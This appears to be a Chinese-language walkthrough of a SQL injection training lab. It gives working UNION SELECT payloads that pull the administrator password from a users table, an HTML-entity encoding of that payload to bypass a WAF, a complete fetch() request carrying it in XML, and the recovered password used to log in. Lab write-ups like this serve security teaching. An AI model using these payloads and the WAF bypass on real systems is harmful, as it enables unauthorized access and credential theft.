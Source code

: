 先嘗試用 `UNION SELECT NULL--` 來判斷前面的 `SELECT` 選了幾個 columns

```
1 UNION SELECT NULL--
1 UNION SELECT NULL,NULL--
```

Payload

```
1 UNION SELECT password FROM users WHERE username = 'administrator'--
```

SQL

```sql
SELECT unit FROM stocks WHERE productId = 1 AND storeId = 1 UNION SELECT password FROM users WHERE username = 'administrator'--'
```

轉換成 HTML Entity 來繞過 WAF

```
&#49;&#32;&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#112;&#97;&#115;&#115;&#119;&#111;&#114;&#100;&#32;&#70;&#82;&#79;&#77;&#32;&#117;&#115;&#101;&#114;&#115;&#32;&#119;&#104;&#101;&#114;&#101;&#32;&#117;&#115;&#101;&#114;&#110;&#97;&#109;&#101;&#32;&#61;&#32;&#39;&#97;&#100;&#109;&#105;&#110;&#105;&#115;&#116;&#114;&#97;&#116;&#111;&#114;&#39;&#45;&#45;
```

最終在 F12 > console 送出的 fetch 請求

```js
fetch("/product/stock", {
  headers: {
    "content-type": "application/xml",
  },
  body: '<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>&#49;&#32;&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#112;&#97;&#115;&#115;&#119;&#111;&#114;&#100;&#32;&#70;&#82;&#79;&#77;&#32;&#117;&#115;&#101;&#114;&#115;&#32;&#119;&#104;&#101;&#114;&#101;&#32;&#117;&#115;&#101;&#114;&#110;&#97;&#109;&#101;&#32;&#61;&#32;&#39;&#97;&#100;&#109;&#105;&#110;&#105;&#115;&#116;&#114;&#97;&#116;&#111;&#114;&#39;&#45;&#45;</storeId></stockCheck>',
  method: "POST",
})
  .then((res) => res.text())
  .then((res) => console.log(res));
```

console 的結果

```
020yk5zmzoy92jl364rg
217 units
```

接下來用 `administrator` + `020yk5zmzoy92jl364rg` 就可以成功登入～

## Lab: SQL injection attack, querying the database type and version on Oracle
